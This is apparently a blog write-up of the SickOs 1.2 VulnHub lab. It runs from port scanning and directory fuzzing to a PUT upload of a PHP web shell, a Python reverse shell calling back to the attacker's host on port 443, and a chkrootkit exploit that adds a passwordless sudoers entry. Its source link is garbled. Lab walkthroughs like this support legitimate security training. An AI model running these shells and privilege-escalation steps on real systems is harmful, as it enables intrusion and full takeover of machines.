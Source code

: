 ```yaml
---
layout: post
title: "sickos1.2"
date: 2016-05-31 13:08:16 -0500
comments: true
categories: [vulhub]
---
```


From [Vulhub](From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Nikto
* Wfuzz
* Curl

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/sickos1.2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.180 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.180 -p-`

Looks like port 22 and port 80 are openning.

{% img  /images/blog/vulhub/sickos1.2/Selection_002.png   [title manually exploit [alt text]] %}

Check the http://192.168.79.180

{% img  /images/blog/vulhub/sickos1.2/Selection_003.png   [title manually exploit [alt text]] %}

Not excited.

use Nikto:

{% img  /images/blog/vulhub/sickos1.2/Selection_004.png   [title manually exploit [alt text]] %}

Still nothing cool

try wfuzz:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.180/FUZZ 2>/dev/null
```
find a test dir:

{% img  /images/blog/vulhub/sickos1.2/Selection_005.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/sickos1.2/Selection_006.png   [title manually exploit [alt text]] %}

next exam the HTTP options:

```
curl -v -X OPTIONS http://192.168.79.180/test/
```

{% img  /images/blog/vulhub/sickos1.2/Selection_007.png   [title manually exploit [alt text]] %}


looks like it supports PUT.

Now upload php reverse shell (I tried different ports, looks like only 443 port works):


```
nmap -p80 192.168.79.180 --script http-put --script-args http-put.url='/test/shell.php',http-put.file='shell.php'
```


{% img  /images/blog/vulhub/sickos1.2/Selection_008.png   [title manually exploit [alt text]] %}


now the shell is uploaded:


{% img  /images/blog/vulhub/sickos1.2/Selection_009.png   [title manually exploit [alt text]] %}


get the reverse shell:


{% img  /images/blog/vulhub/sickos1.2/Selection_010.png   [title manually exploit [alt text]] %}


A better php shell:

```php
<?php system($_GET["exec"]); ?>
```

Upload this shell, and in brower:

```
http://192.168.79.180/test/exec.php?exec=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.79.173",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
get the shell.


During enumeration step, I follow [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

`ls -l /etc/cron.daily`

{% img  /images/blog/vulhub/sickos1.2/Selection_012.png   [title manually exploit [alt text]] %}

After enumeration, find the system has chkrootkit:

`dpkg -l | grep chkrootkit`


chkrootkit verions is 0.49 and it is vulnerable.


`searchsploit chkrootkit`


`echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

also need to change the privilages on the update file with chmod 777 and wait:

`ls -al /etc/sudoers`

try:

`sudo su`


{% img  /images/blog/vulhub/sickos1.2/Selection_013.png   [title manually exploit [alt text]] %}



DONE










